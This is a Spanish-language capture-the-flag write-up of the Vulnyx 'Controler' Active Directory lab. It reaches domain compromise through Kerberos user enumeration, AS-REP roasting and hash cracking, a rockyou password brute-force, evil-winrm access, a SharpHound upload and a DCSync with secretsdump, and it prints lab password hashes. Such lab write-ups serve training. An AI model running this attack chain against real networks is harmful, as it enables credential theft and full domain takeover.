







+++
author = "Andrés Del Cerro"
title = "Vulnyx: Controler Writeup | Medium"
date = "2024-11-27"
description = ""
tags = [
    "Vulnyx",
    "Controler",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows",
    "DNS Enumeration",
    "Abusing Kerberos",
    "User Enumeration",
    "ASREPRoast",
    "Hash Cracking",
    "Cracking",
    "Enumerating SMB",
    "Enumerating LDAP",
    "Bloodhound",
    "SharpHound",
    "Dictionary Attack",
    "Abusing AllExtendedRights",
    "DCSync",
    "Pass The Hash"
]

+++

# Vulnyx: Controler Writeup

Welcome to my detailed writeup of the medium difficulty machine **"Controler"** on Vulnyx. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
rustscan -a 192.168.2.6 --ulimit 5000 -g
192.168.2.6 -> [53,88,135,139,389,445,464,593,3268,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49680,49685,49688,49703]
```

```console
nmap -p53,88,135,139,389,445,464,593,3268,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49680,49685,49688,49703 -sCV 192.168.2.6 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-23 12:04 CET
Stats: 0:00:26 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 56.52% done; ETC: 12:05 (0:00:20 remaining)
Nmap scan report for 192.168.2.6
Host is up (0.00064s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-23 19:04:21Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: control.nyx0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: control.nyx0., Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  msrpc         Microsoft Windows RPC
49688/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CONTROLER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2024-11-23T19:05:15
|_  start_date: N/A
|_clock-skew: 7h59m57s
|_nbstat: NetBIOS name: CONTROLER, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:03:fa:e8 (Oracle VirtualBox virtual NIC)
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.43 seconds
```

# UDP Enumeration

```console
sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 192.168.2.6 -oN allPorts.UDP
[sudo] password for kali:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-23 12:05 CET
Nmap scan report for 192.168.2.6
Host is up (0.00032s latency).
Not shown: 1495 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
88/udp    open   kerberos-sec
123/udp   open   ntp
137/udp   open   netbios-ns
389/udp   open   ldap
26705/udp closed unknown
MAC Address: 08:00:27:03:FA:E8 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.91 seconds
```

Del escaneo inicial encontramos el dominio `control.nyx` , lo añadimos al `/etc/hosts`
# DNS Enumeration
Podemos con `dig` descubrir rápidamente el NS, es decir, cual es el nombre asignado al controlador de dominio. Lo añadimos también al `/etc/hosts`
```console
dig NS control.nyx @192.168.2.6

; <<>> DiG 9.19.19-1-Debian <<>> NS control.nyx @192.168.2.6
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 35317
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;control.nyx.			IN	NS

;; ANSWER SECTION:
control.nyx.		3600	IN	NS	controler.control.nyx.

;; ADDITIONAL SECTION:
controler.control.nyx.	3600	IN	A	192.168.2.6

;; Query time: 0 msec
;; SERVER: 192.168.2.6#53(192.168.2.6) (UDP)
;; WHEN: Sat Nov 23 12:06:53 CET 2024
;; MSG SIZE  rcvd: 80
```

Podemos también intentar hacer una transferencia de zona pero no podemos hacerlo.
```console
dig axfr control.nyx @192.168.2.6

; <<>> DiG 9.19.19-1-Debian <<>> axfr control.nyx @192.168.2.6
;; global options: +cmd
; Transfer failed.
```

También me gusta hacer un ataque de fuerza bruta con `dnsenum` para intentar descubrir nuevos subdominios pero no encontramos nada interesante.
```console
dnsenum --dnsserver 192.168.2.6 -f /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt control.nyx
dnsenum VERSION:1.2.6

-----   control.nyx   -----


Host's addresses:
__________________

control.nyx.                             600      IN    A        192.168.1.50


Name Servers:
______________

controler.control.nyx.                   3600     IN    A        192.168.2.6


Mail (MX) Servers:
___________________


Trying Zone Transfers and getting Bind Versions:
_________________________________________________

unresolvable name: controler.control.nyx at /usr/bin/dnsenum line 897.

Trying Zone Transfer for control.nyx on controler.control.nyx ...
AXFR record query failed: no nameservers


Brute forcing with /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt:
__________________________________________________________________________________________________

gc._msdcs.control.nyx.                   600      IN    A        192.168.1.50
domaindnszones.control.nyx.              600      IN    A        192.168.1.50
forestdnszones.control.nyx.              600      IN    A        192.168.1.50
```

# SMB Enumeration
No podemos enumerar el servicio SMB ya que no se admite `NULL Sessions`
```console
smbclient -L \\\\192.168.2.6 -U '' -N

	Sharename       Type      Comment
	---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.2.6 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Siempre está bien probar con otra herramienta, por si acaso.
```console
smbmap -H 192.168.2.6 -u '' --no-banner
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)
[!] Something weird happened: SMB SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights. on line 970
```

# RPC Enumeration
Vamos a enumerar el servicio RPC a ver si se admite una NULL Session.

Para ello vamos a utilizar la herramienta `rpcenum` del gran s4vitar.

La clonamos.
```console
git clone https://github.com/s4vitar/rpcenum
Cloning into 'rpcenum'...
remote: Enumerating objects: 54, done.
remote: Counting objects: 100% (19/19), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 54 (delta 15), reused 14 (delta 14), pack-reused 35 (from 1)
Receiving objects: 100% (54/54), 577.54 KiB | 389.00 KiB/s, done.
Resolving deltas: 100% (15/15), done.
```

Y tampoco podemos enumerar el RPC por ahora.
```console
➜  rpcenum git:(master) sudo ./rpcenum -i 192.168.2.6 -e All

[!] Error: Access Denied
➜  rpcenum git:(master) sudo ./rpcenum -i 192.168.2.6 -e DUsers

[!] Error: Access Denied
```

# LDAP Enumeration

Tampoco puedo enumerar el LDAP sin credenciales.
```console
ldapsearch -x -H ldap://192.168.2.6 -D '' -w '' -b "DC=CONTROL,DC=NYX"
# extended LDIF
#
# LDAPv3
# base <DC=CONTROL,DC=NYX> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1
```

# Enumerating Username with `kerbrute`

En este punto no nos queda otra cosa que intentar enumerar usuarios del dominio utilizando listas de usuario, pero con la lista `xato-net-10-million-usernames-dup.txt` que suelo utilizar normalmente de `SecLists` no conseguí enumerar nada.
```console
/usr/share/kerbrute userenum --dc 192.168.2.6 -d control.nyx /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames-dup.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 11/23/24 - Ronnie Flathers @ropnop

2024/11/23 14:51:57 >  Using KDC(s):
2024/11/23 14:51:57 >  	192.168.2.6:88

2024/11/23 14:51:58 >  [+] VALID USERNAME:	 administrator@control.nyx
2024/11/23 14:52:00 >  [+] VALID USERNAME:	 Administrator@control.nyx
```

Podemos descargarnos algunas listas adicionales que están pensadas para nombres de usuarios de dominios de [este repositorio](https://github.com/attackdebris/kerberos_enum_userlists)

```
git clone https://github.com/attackdebris/kerberos_enum_userlists
Cloning into 'kerberos_enum_userlists'...
remote: Enumerating objects: 57, done.
remote: Total 57 (delta 0), reused 0 (delta 0), pack-reused 57 (from 1)
Receiving objects: 100% (57/57), 266.28 KiB | 1.61 MiB/s, done.
Resolving deltas: 100% (37/37), done.
```

En este repositorio tenemos muchos repositorios, así que vamos a ir probando lista por lista a ver si tenemos suerte.

Probando la segunda lista encontramos un usuario llamado `b.lewis`
```console
/usr/share/kerbrute userenum --dc 192.168.2.6 -d control.nyx A-Z.Surnames.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 11/23/24 - Ronnie Flathers @ropnop

2024/11/23 14:54:21 >  Using KDC(s):
2024/11/23 14:54:21 >  	192.168.2.6:88

2024/11/23 14:54:21 >  [+] VALID USERNAME:	 B.LEWIS@control.nyx
2024/11/23 14:54:23 >  Done! Tested 13000 usernames (1 valid) in 2.673 seconds
```

# ASREPRoast
Podemos revisar si este usuario tiene el atributo `DONT_REQUIRE_PREAUTH`, esto significaría que podemos conseguir el hash de su credencial ya que el servidor nos mandaría un TGT sin que revise la credencial del usuario.
Y parece que hemos tenido suerte.
```console
impacket-GetNPUsers control.nyx/b.lewis -no-pass -dc-ip 192.168.2.6
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[*] Getting TGT for b.lewis
$krb5asrep$23$b.lewis@CONTROL.NYX:93f3092f54e275f49db23e1124895685$2048a7a7ae6a8a4bb963aff7ba12c8ffd78642d96faf7a8b219c39b573587b8a26261bc97a4bbab17d242184b29439b441f26b91b0a985e6114c8c5048fb88313ce38d7d387a9e85c1b56268ebd4873c6ef321768fc0cc0be0eb6bb3aeb9370221688bc57ca4b954bf0bf0d3870976f4441919957e5f04ed4a0c98e3fbfca7ba876ce5926b9ffac41956072a654c2369b9052d172a1a45b57049f9acc90e7c0024042d03d29a9a045687d01c0e637f0b9388cf2939d520329c517e854d4833f2a53168c4d5998d5cd05d881a61e05ecce793eb11e6a99030aabdebe9a7f583e917697d67cb018dc0930d
```

Este hash lo podemos crackear offline con `johntheripper`, lo vamos a guardar en un fichero llamado `hash` y a intentar crackearlo.

```console
john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
101Music         ($krb5asrep$23$b.lewis@CONTROL.NYX)
1g 0:00:00:12 DONE (2024-11-23 14:57) 0.08326g/s 1120Kp/s 1120Kc/s 1120KC/s 101eagles..1019904
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Se ve que este usuario no tiene una contraseña robusta y la conseguimos crackear, y tenemos credenciales.

```
b.lewis:101Music
```

Las podemos comprobar con `netexec` y vemos que son válidas.

```console
nxc smb 192.168.2.6 -u b.lewis -p 101Music
SMB         192.168.2.6     445    CONTROLER        [*] Windows 10 / Server 2019 Build 17763 x64 (name:CONTROLER) (domain:control.nyx) (signing:True) (SMBv1:False)
SMB         192.168.2.6     445    CONTROLER        [+] control.nyx\b.lewis:101Music
```

Pero este usuario no pertenece al grupo `Remote Management Users` por lo cual no podemos conseguir una consola interactiva mediante el protocolo WinRM.

```console
nxc winrm 192.168.2.6 -u b.lewis -p 101Music
WINRM       192.168.2.6     5985   CONTROLER        [*] Windows 10 / Server 2019 Build 17763 (name:CONTROLER) (domain:control.nyx)
WINRM       192.168.2.6     5985   CONTROLER        [-] control.nyx\b.lewis:101Music
```

# Enumerating SMB (authenticated)
No encontramos ningún recurso interesante mediante el SMB.
```console
smbmap -H 192.168.2.6 -u 'b.lewis' -p '101Music'

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)

[+] IP: 192.168.2.6:445	Name: control.nyx         	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share
	SYSVOL                                            	READ ONLY	Logon server share
```

# Enumerating LDAP (authenticated)
Como ahora sabemos que tenemos un usuario autenticado, vamos a utilizar `ldapdomaindump` para enumerar el dominio de una forma cómoda.
```console
ldapdomaindump -n 192.168.2.6 --no-grep --no-json -u control.nyx\\b.lewis -p 101Music control.nyx
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

```console
ls
domain_computers_by_os.html  domain_computers.html  domain_groups.html  domain_policy.html  domain_trusts.html  domain_users_by_group.html  domain_users.html
```

Ahora simplemente podemos servir estos archivos HTML utilizando el módulo `http.server` de `python3`, en mi caso, lo voy a servir por el puerto 8081.
```console
python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

Y ahora mediante el navegador cómodamente podemos acceder a estos archivos.


No encontramos ningún grupo especial, pero si que vemos que el usuario `j.levy` pertenece al grupo `Remote Management Users`


Igualmente ahora tenemos una lista con los usuarios del dominio.
```console
cat -p users.txt
b.lewis
a.hansen
d.petrov
m.klein
j.levy
administrator
```

Ningún usuario (que no sea `b.lewis`) tiene esa credencial.
```console
nxc smb 192.168.2.6 -u users.txt -p 101Music --continue-on-success
SMB         192.168.2.6     445    CONTROLER        [*] Windows 10 / Server 2019 Build 17763 x64 (name:CONTROLER) (domain:control.nyx) (signing:True) (SMBv1:False)
SMB         192.168.2.6     445    CONTROLER        [+] control.nyx\b.lewis:101Music
SMB         192.168.2.6     445    CONTROLER        [-] control.nyx\a.hansen:101Music STATUS_LOGON_FAILURE
SMB         192.168.2.6     445    CONTROLER        [-] control.nyx\d.petrov:101Music STATUS_LOGON_FAILURE
SMB         192.168.2.6     445    CONTROLER        [-] control.nyx\m.klein:101Music STATUS_LOGON_FAILURE
SMB         192.168.2.6     445    CONTROLER        [-] control.nyx\j.levy:101Music STATUS_LOGON_FAILURE
SMB         192.168.2.6     445    CONTROLER        [-] control.nyx\administrator:101Music STATUS_LOGON_FAILURE
```

# Bloodhound Enumeration
Vamos a utilizar `bloodhound-python` para poder enumerar el dominio con `bloodhound` teniendo las credenciales que tenemos del usuario `b.lewis`, con suerte este usuario tiene algún permiso sobre otro usuario y podemos pivotar.
```console
bloodhound-python -ns 192.168.2.6 -dc controler.control.nyx -u b.lewis -p 101Music -d control.nyx
INFO: Found AD domain: control.nyx
INFO: Getting TGT for user
INFO: Connecting to LDAP server: controler.control.nyx
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Found 9 users
INFO: Connecting to LDAP server: controler.control.nyx
INFO: Found 52 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: Controler.control.nyx
INFO: Done in 00M 00S
```

Ahora iniciamos la base de datos `neo4j` que es la que utiliza `bloodhound`
```console
sudo neo4j start
[sudo] password for kali:
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:74172). It is available at http://localhost:7474
There may be a short delay until the server is ready.
```

Y ya simplemente iniciamos `bloodhound` e importamos los archivos generados de `bloodhound-python`


Ahora nos dirigimos al usuario `b.lewis` y le marcamos como `Owned`


# `j.levy` bruteforce
Después de analizar un rato la situación, no encontramos nada interesante para poder aprovecharnos.

En este punto no puedo hacer mucho, solo puedo coger la cuenta de usuario de `j.levy` que era la que pertenecía al grupo `Remote Management Users` y probar un diccionario de contraseñas un rato rezando para que tenga una contraseña poco robusta.

Y sorprendentemente conseguimos la credencial para este usuario.
```console
nxc smb 192.168.2.6 -u j.levy -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
......
SMB         192.168.2.6     445    CONTROLER        [-] control.nyx\j.levy:marquis STATUS_LOGON_FAILURE
SMB         192.168.2.6     445    CONTROLER        [-] control.nyx\j.levy:freestyle STATUS_LOGON_FAILURE
SMB         192.168.2.6     445    CONTROLER        [-] control.nyx\j.levy:candygirl STATUS_LOGON_FAILURE
SMB         192.168.2.6     445    CONTROLER        [-] control.nyx\j.levy:blackjack STATUS_LOGON_FAILURE
SMB         192.168.2.6     445    CONTROLER        [-] control.nyx\j.levy:amsterdam STATUS_LOGON_FAILURE
SMB         192.168.2.6     445    CONTROLER        [-] control.nyx\j.levy:alone STATUS_LOGON_FAILURE
SMB         192.168.2.6     445    CONTROLER        [+] control.nyx\j.levy:Password1
```


Podemos comprobar también con `netexec` que podemos hacer uso del protocolo `WinRM` para conseguir una consola interactiva como este usuario.
```console
nxc winrm 192.168.2.6 -u j.levy -p Password1
WINRM       192.168.2.6     5985   CONTROLER        [*] Windows 10 / Server 2019 Build 17763 (name:CONTROLER) (domain:control.nyx)
WINRM       192.168.2.6     5985   CONTROLER        [+] control.nyx\j.levy:Password1 (Pwn3d!)
```

Y con `evil-winrm` conseguimos una shell y podemos ver la flag de usuario.
```console
*Evil-WinRM* PS C:\Users\j.levy\Desktop> type user.txt
587c4dac7a29c5c...
```

# Privilege Escalation
Ahora podemos utilizar `SharpHound` ya que recopila mas información que `bloodhound-python` y quizás encontremos una escalada en base a privilegios de usuarios, ya que después de un rato enumerando la máquina no encuentro nada.

Subimos el ejecutable haciendo uso de la función `upload` que tiene `evil-winrm`
```console
*Evil-WinRM* PS C:\windows\temp\work> upload ../../../../../usr/share/SharpHound.exe

Info: Uploading /home/kali/Desktop/controler/content/../../../../../usr/share/SharpHound.exe to C:\windows\temp\work\SharpHound.exe

Data: 1402880 bytes of 1402880 bytes copied

Info: Upload successful!
```

Y podemos empezar la enumeración y vemos que nos genera un archivo `.zip`, este archivo nos lo vamos a descargar a nuestra máquina.
```console
*Evil-WinRM* PS C:\windows\temp\work> .\SharpHound.exe -c All -d control.nyx
2024-11-27T13:56:22.4495922-08:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-11-27T13:56:22.5736137-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-11-27T13:56:22.6046309-08:00|INFORMATION|Initializing SharpHound at 1:56 PM on 11/27/2024
2024-11-27T13:56:22.6986369-08:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for control.nyx : Controler.control.nyx
2024-11-27T13:56:22.8232664-08:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-11-27T13:56:22.9486785-08:00|INFORMATION|Beginning LDAP search for control.nyx
2024-11-27T13:56:22.9791841-08:00|INFORMATION|Producer has finished, closing LDAP channel
2024-11-27T13:56:22.9956880-08:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-11-27T13:56:53.6357554-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2024-11-27T13:57:12.2298717-08:00|INFORMATION|Consumers finished, closing output channel
2024-11-27T13:57:12.2608769-08:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2024-11-27T13:57:12.3073993-08:00|INFORMATION|Status: 95 objects finished (+95 1.938776)/s -- Using 42 MB RAM
2024-11-27T13:57:12.3228847-08:00|INFORMATION|Enumeration finished in 00:00:49.3710135
2024-11-27T13:57:12.3708956-08:00|INFORMATION|Saving cache with stats: 54 ID to type mappings.
 54 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-11-27T13:57:12.3858986-08:00|INFORMATION|SharpHound Enumeration Completed at 1:57 PM on 11/27/2024! Happy Graphing!
*Evil-WinRM* PS C:\windows\temp\work> dir


    Directory: C:\windows\temp\work


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       11/27/2024   1:57 PM          11381 20241127135711_BloodHound.zip
-a----       11/27/2024   1:57 PM           8136 MWMwNWZhMWQtNWU5Yi00ZGZhLTgzZDEtMDE5NjRmMmE2NWEw.bin
-a----       11/27/2024   1:55 PM        1052160 SharpHound.exe
*Evil-WinRM* PS C:\windows\temp\work> download 20241127135711_BloodHound.zip

Info: Downloading C:\windows\temp\work\20241127135711_BloodHound.zip to 20241127135711_BloodHound.zip

Info: Download successful!
```

# Bloodhound Enumeration (w/ SharpHound)
Ahora vamos al `bloodhound` y limpiamos la base de datos, importamos datos y esta vez elegimos el archivo generado por el SharpHound.


Vamos a marcar como `Owned` a `j.levy` y a `b.lewis`


# DCSync
Y cuidado, porque el usuario `j.levy` tiene el privilegio `AllExtendedRights` sobre el dominio.


Esto significa que tenemos acceso para leer todos los atributos privilegiados y también para hacer algunas acciones especiales.

Este privilegio, nos asigna los privilegios `DS-Replication-Get-Changes` y `DS-Replication-Get-Changes-All`, esto significa que podemos replicar cualquier objeto del dominio, ergo, podemos hacer un DCSync.

Con `secretsdump` podemos dumpear el `NTDS.dit` y conseguir el Hash NT del usuario Administrador.
```console
impacket-secretsdump "control.nyx/j.levy:Password1@controller.control.nyx"
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:48b20d4f3ea31b7234c92b71c90fbff7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b70cca1e5225303104dea9942d31f3a7:::
control.nyx\j.levy:1103:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
control.nyx\b.lewis:1104:aad3b435b51404eeaad3b435b51404ee:08f37c649690b7df615961f71831ef4a:::
